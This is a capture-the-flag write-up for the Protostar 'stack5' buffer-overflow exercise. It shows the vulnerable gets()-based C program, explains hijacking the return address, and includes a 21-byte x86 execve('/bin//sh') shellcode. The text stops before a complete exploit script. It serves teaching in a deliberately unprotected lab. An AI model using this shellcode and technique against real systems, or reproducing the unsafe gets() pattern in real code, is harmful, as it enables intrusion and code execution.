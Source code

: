 ## Stack5

### Description

https://exploit-exercises.com/protostar/stack5/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### Write-up

This challenge is a little more realistic in it's exploitation. From the
code we can see a buffer and a call to ```gets```, but nothing else is done.

As we saw before, we need to control the value of EIP through the Return
Address.

Now the question is, to where do we make execution return? Well, these
challenges don't have any security features enabled! So...why not place
executable instructions, shellcode, on the stack. Our Return Address in this
case will simply be the address of the buffer containing shellcode on the stack.

The following is a 21 byte shellcode I wrote that would be perfect for this
situation:

```nasm
BITS 32

global _start
section .text

	; execve syscall number
	SYS_EXECVE equ 0x0b

_start:
	;; execve("/bin//sh", 0, 0);
	;; eax = syscall number
	;; ebx = arg1
	;; ecx = arg2
	;; edx = arg3
	push	SYS_EXECVE
	pop	eax
	cdq			; 0 edx
	xor	ecx, ecx

	push	edx		; string needs to end in 0
	push	0x68732f2f	; push 'hs//'
	push	0x6e69622f	; push 'nib/'
	mov	ebx, esp	; pointer to string, top of stack

	int	0x80		; syscall execve
```
